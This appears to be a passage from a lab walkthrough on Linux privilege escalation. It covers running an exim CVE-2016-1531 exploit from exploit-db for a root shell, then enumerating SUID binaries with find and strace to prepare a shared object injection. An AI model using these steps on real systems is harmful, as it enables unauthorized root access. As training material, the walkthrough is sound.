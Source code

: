 ```
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwsr-sr-x 1 root root 926536 Sep 25 10:30 /tmp/rootbash
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```
the *exim-4.84-3* looks interesting so search in [exploitdb](https://www.exploit-db.com)\
search for exim-4-84.3 and download the exploit\
make it executeable using `chmod +x cve-2016-1531.sh`\
Run the exploit script to gain a root shell:
```
./cve-2016-1531.sh
```
There you go you got the shell 😺

# Task 12 : SUID / SGID Executables - Shared Object Injection

Find all the SUID/SGID executables on the Debian VM:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:
```
/usr/local/bin/suid-so
```
output:
```
Calculating something, please wait...
[=====================================================================>] 99 %
Done.

```
Run strace on the file and search the output for open/access calls and for "no such file" errors:
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
ouptut:
```
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
